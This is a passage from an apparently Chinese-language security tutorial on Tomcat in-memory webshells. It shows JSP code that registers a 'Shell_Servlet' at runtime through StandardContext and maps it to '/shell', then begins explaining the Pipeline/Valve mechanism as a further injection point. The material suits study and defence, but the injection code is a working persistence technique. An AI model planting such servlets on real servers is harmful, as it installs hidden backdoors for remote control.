 ```java
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }
 
%>
 
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
 
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>
 
<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712803360359-8cb9cd11-2026-4e82-b04a-ffa3c6b262e9.png#averageHue=%2370c266&clientId=ud7b9145e-b480-4&from=paste&height=461&id=u5cd937ce&originHeight=922&originWidth=1412&originalType=binary&ratio=2&rotation=0&showTitle=false&size=316724&status=done&style=none&taskId=u9b85eaea-546d-4ef4-acf1-6ff6157a0c8&title=&width=706)
## 4.4、Valve型
### 4.4.1、什么是Valve
在了解`Valve`之前，我们先来简单了解一下`Tomcat`中的管道机制。
我们知道，当`Tomcat`接收到客户端请求时，首先会使用`Connector`进行解析，然后发送到`Container`进行处理。那么我们的消息又是怎么在四类子容器中层层传递，最终送到`Servlet`进行处理的呢？这里涉及到的机制就是`Tomcat`管道机制。
管道机制主要涉及到两个名词，`Pipeline`（管道）和`Valve`（阀门）。如果我们把请求比作管道（`Pipeline`）中流动的水，那么阀门（`Valve`）就可以用来在管道中实现各种功能，如控制流速等。因此通过管道机制，我们能按照需求，给在不同子容器中流通的请求添加各种不同的业务逻辑，并提前在不同子容器中完成相应的逻辑操作。这里的调用流程可以类比为`Filter`中的责任链机制
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712803518764-75cdd9dc-993d-4215-ac3f-8933d0858f92.png#averageHue=%23ececec&clientId=ud7b9145e-b480-4&from=paste&height=661&id=u1f4b05b1&originHeight=1322&originWidth=1764&originalType=binary&ratio=2&rotation=0&showTitle=false&size=354631&status=done&style=none&taskId=u00168465-3414-4897-b3c1-a667b8f0dd6&title=&width=882)
在`Tomcat`中，四大组件`Engine`、`Host`、`Context`以及`Wrapper`都有其对应的`Valve`类，`StandardEngineValve`、`StandardHostValve`、`StandardContextValve`以及`StandardWrapperValve`，他们同时维护一个`StandardPipeline`实例。
### 4.4.2、管道机制流程分析
我们先来看看`Pipeline`接口，继承了`Contained`接口
```java
public interface Pipeline extends Contained {
 
    public Valve getBasic();
 
    public void setBasic(Valve valve);
 
    public void addValve(Valve valve);
 
    public Valve[] getValves();
 
    public void removeValve(Valve valve);
```